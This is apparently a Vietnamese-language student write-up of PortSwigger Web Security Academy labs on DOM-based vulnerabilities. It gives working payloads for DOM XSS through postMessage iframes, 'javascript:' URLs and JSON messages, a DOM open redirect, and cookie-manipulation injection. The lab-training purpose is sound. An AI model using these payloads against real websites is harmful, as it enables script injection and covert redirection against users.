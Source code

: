 # DOM-based vulnerabilities

### 1. DOM XSS using web messages
https://portswigger.net/web-security/dom-based/controlling-the-web-message-source/lab-dom-xss-using-web-messages

Context: Dùng hàm `addEventListener()` để lắng nghe message.

![alt text](image.png)

Nó sẽ lắng nghe để gắn quảng cáo vào trang web. 

Tạo 1 iframe ở server exploit, iframe này dẫn đến trang web cần exploit và có gửi thêm message, payload:

`<iframe src="https://0a3e00fa03d89772812011d8009c002a.web-security-academy.net/" onload="this.contentWindow.postMessage('<img src=1 onerror=print()>','*')">`

![alt text](image-1.png)

---

### 2. DOM XSS using web messages and a JavaScript URL
https://portswigger.net/web-security/dom-based/controlling-the-web-message-source/lab-dom-xss-using-web-messages-and-a-javascript-url

Context: Dùng hàm `addEventListener()` + sink: `location.href` + URL cần có `http/https`

![alt text](image-2.png)

Payload: `<iframe src="https://0a60005c0338391482ef47cf007b003b.web-security-academy.net/" onload="this.contentWindow.postMessage('javascript:print()//http:','*')">`

---

### 3. DOM XSS using web messages and `JSON.parse`
https://portswigger.net/web-security/dom-based/controlling-the-web-message-source/lab-dom-xss-using-web-messages-and-json-parse

Context: `addEventListener` + message dạng JSON

![alt text](image-3.png)

Ở đây ta thấy có thêm điều kiện `type=load-channel` để có thể được gán `src` = `d.url`.

Payload: `<iframe src=https://0a9b004b04098a3c80aa857e0066000e.web-security-academy.net/ onload='this.contentWindow.postMessage("{\"type\":\"load-channel\",\"url\":\"javascript:print()\"}","*")'>`

---

### 4. DOM-based open redirection
https://portswigger.net/web-security/dom-based/open-redirection/lab-dom-open-redirection

Context: sink `location.href`, parameter `url` sẽ chứa đường dẫn để turn back

![alt text](image-4.png)

Payload: `https://YOUR-LAB-ID.web-security-academy.net/post?postId=4&url=https://YOUR-EXPLOIT-SERVER-ID.exploit-server.net/`

Ta đặt `url` chuyển hướng về server exploit

---

### 5. DOM-based cookie manipulation
https://portswigger.net/web-security/dom-based/cookie-manipulation/lab-dom-cookie-manipulation

Context: code tạo cookie phía client `lastViewedProduct` để lưu trang cuối cùng đã xem 

![alt text](image-5.png)

Nhưng giá trị này sẽ lấy tất cả path phía sau và không có filter, vì thế ta sẽ chèn `'` để thoát ra và chèn thêm mã js vào. 

Payload: `<iframe src="https://YOUR-LAB-ID.web-security-academy.net/product?productId=1&'><script>print()</script>" onload="if(!window.x)this.src='https://YOUR-LAB-ID.web-security-academy.net';window.x=1;">`

Iframe này dẫn đến 1 bài post và có thêm mã js, sau đó cookie sẽ lưu lại, và cũng trong iframe này, sự kiện onload ngay lập tức đưa về trang chủ để cookie không bị sửa đổi cũng như người dùng không phát hiện. Và khi người dùng tải lại trang chủ mã sẽ thực thi tự động vì page có:

![alt text](image-6.png)

Còn 2 bài expert














